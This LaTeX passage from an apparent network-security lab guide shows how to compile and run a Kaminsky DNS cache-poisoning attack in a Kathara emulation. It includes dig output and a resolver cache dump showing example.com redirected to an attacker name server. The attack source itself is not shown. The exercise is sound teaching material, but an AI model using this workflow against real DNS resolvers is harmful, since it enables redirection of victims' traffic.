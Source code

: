 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{Run the attack}

Compile and run the scripts as usual:
\begin{lstlisting}
<@\textcolor{codegray}{:>}@> kathara connect attacker  <@\textcolor{codegreen}{\# Connect to the attacker's machine}@>
<@\textcolor{codegray}{attacker :>}@> g++ -o kaminsky /shared/kaminsky.cpp -ltins    <@\textcolor{codegreen}{\# Compile}@>
<@\textcolor{codegray}{attacker :>}@> ./kaminsky    <@\textcolor{codegreen}{\# Run}@>
\end{lstlisting}

\noindent
\\
Check if the attack was successful either by:
\begin{itemize}
  \item resolving any domain under \texttt{example.com}, from the victim machine
\begin{lstlisting}
<@\textcolor{codegray}{:>}@> kathara connect victim
<@\textcolor{codegray}{victim:/\#}@> dig foo.example.com
[...]
;; ANSWER SECTION:
<@\textcolor{codepurple}{foo.example.com.}@>        59815   IN      A       <@\textcolor{codepurple}{1.1.1.3}@>
[...]

<@\textcolor{codegray}{victim:/\#}@> dig bar.example.com
[...]
;; ANSWER SECTION:
<@\textcolor{codepurple}{bar.example.com.}@>        60000   IN      A       <@\textcolor{codepurple}{1.1.1.3}@>
[...]  
\end{lstlisting}
  \item or looking at the \emph{recursive DNS}'s cache.
\begin{lstlisting}
<@\textcolor{codegray}{:>}@> kathara connect rec_dns
<@\textcolor{codegray}{rec\_dns:/\#}@> rndc dumpdb -cache && grep "example.com" /var/cache/bind/dump.db
<@\textcolor{codepurple}{example.com.}@>            59921   NS      <@\textcolor{codepurple}{ns.attacker.com.}@>
<@\textcolor{codepurple}{uadrd.example.com.}@>       59919   A       <@\textcolor{codepurple}{1.1.1.3}@>
\end{lstlisting}
\end{itemize}

\noindent
Also in this case, if the attack didn't work, try to run the attack multiple times
or, if you have a slow computer, try to increase the \texttt{delay} in the
\emph{TLD DNS}'s machine.

\subsection{\texttt{\textcolor{codepurple}{dig}}ging into the attack}
\end{document}
